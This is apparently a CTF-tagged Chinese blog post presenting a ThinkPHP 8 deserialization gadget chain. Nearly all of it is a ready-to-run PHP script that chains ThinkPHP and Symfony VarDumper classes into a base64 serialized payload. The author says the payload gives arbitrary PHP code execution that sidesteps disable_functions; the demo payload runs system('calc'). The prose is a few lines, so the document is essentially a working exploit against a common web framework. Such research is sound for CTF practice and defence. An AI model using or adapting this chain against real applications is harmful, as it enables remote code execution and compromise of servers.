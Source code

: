 ```yaml
---
 title: Thinkphp8高版本反序列化链实现任意php代码执行
 date: 2024-10-7 12:00:00 +0800
 categories: [CTF, Thinkphp]
 tags: [Thinkphp反序列化链,php]
---
```


本身在Thinkphp框架模板渲染注入中可以实现eval执行任意命令

![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202410042308161.png)

参考:https://xz.aliyun.com/t/15591

为了和disabled_function说再见 重新写了Thinkphp8高版本的反序列化链实现任意代码执行,而不仅仅是命令执行RCE,可以适用于更多的复杂情况

```php
<?php
namespace Symfony\Component\VarDumper\Cloner;
class Stub
{
    public $value="<?php system('calc');?>";

}
namespace Symfony\Component\VarDumper\Caster;
use Symfony\Component\VarDumper\Cloner\Stub;
class ConstStub extends Stub
{

}

namespace think\view\driver;
class Php 
{

}



namespace think;
use think\view\driver\Php;
class Validate
{
    protected $type;
    public function __construct()
    {
        $this->type = ["visible"=>[new Php,"display"]];
    }
}

namespace think\model\concern;
use think\Model;

trait Conversion
{
    
}

namespace think;
use Symfony\Component\VarDumper\Caster\ConstStub;
abstract class Model 
{
    protected $append = ["J1rrY"=>["J1rrY"]];
    protected $visible;
    private $relation;
    public function __construct()
    {
        $this->relation = ["J1rrY"=>new Validate()];
        $this->visible = ["J1rrY"=>new ConstStub()];
    }
}


namespace think\model;
use think\Model;
class Pivot extends Model
{

}



namespace think\route;
use think\model\Pivot;
abstract class Rule
{
    
    protected $name="J1rrY";
    protected $rule="J1rrY";   
    protected $option;
    public function __construct()
    {
        $this->option= ["var"=>["J1rrY"=>new Pivot()]];
    }

}
namespace think\route;

class RuleGroup extends Rule
{

}

namespace think\route;
class Resource extends RuleGroup
{
    protected $rest = ["J1rrY"=>["J1rrY","<id>"]];
}
namespace think\route;
class ResourceRegister
{
    protected $resource;
    public function __construct()
    {
        $this->resource =new Resource();
    }
}
echo(base64_encode(serialize(new ResourceRegister())));
?>
```

![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202410042321997.png)

